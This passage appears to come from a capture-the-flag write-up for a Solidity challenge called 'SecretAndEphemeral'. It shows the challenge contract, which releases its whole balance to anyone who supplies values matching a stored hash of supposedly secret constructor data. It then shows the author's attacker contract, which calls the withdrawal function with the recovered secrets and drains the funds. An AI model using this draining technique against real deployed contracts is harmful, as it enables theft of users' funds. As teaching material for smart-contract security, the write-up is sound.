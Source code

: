 ```solidity
    constructor(string memory _not_yours, uint256 _secret_number) {
        not_yours = _not_yours;
        spooky_hash = keccak256(abi.encodePacked(not_yours, _secret_number, msg.sender));
    }

    function giveTheFunds() payable public {
        require(msg.value > 0.1 ether);
        // Thankyou for your donation
        cool_wallet_addresses[msg.sender] += msg.value;
    }

    function retrieveTheFunds(string memory secret, uint256 secret_number, address _owner_address) public {
        bytes32 userHash = keccak256(abi.encodePacked(secret, secret_number, _owner_address));

        require(userHash == spooky_hash, "Somethings wrong :(");

        // User authenticated, sending funds
        uint256 balance = address(this).balance;
        payable(msg.sender).transfer(balance);
    }
}
```

To solve this challenge, we need to successfully retrieve the funds of the contract. Here's my solve script:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import './SecretAndEphemeral.sol';

contract SecretAndEphemeralAttacker {
    SecretAndEphemeral private immutable sae;
    string private secret;
    uint256 private immutable secret_number;
    address[] private addresses;

    constructor(address _sae, string memory _secret, uint256 _secret_number, address[] memory _addresses) {
        sae = SecretAndEphemeral(_sae);
        secret = _secret;
        secret_number = _secret_number;
        addresses = _addresses;

        require(keccak256(abi.encodePacked(_secret, _secret_number, _addresses[0])) == SecretAndEphemeral(_sae).spooky_hash(), ":(");
    }

    function exploit() external {
        for(uint256 i = 0; i < addresses.length; ++i) {
            address addr = addresses[i];
            sae.retrieveTheFunds(secret, secret_number, addr);
        }
        payable(msg.sender).transfer(address(this).balance);
    }
   
   fallback() external payable {}
}
```
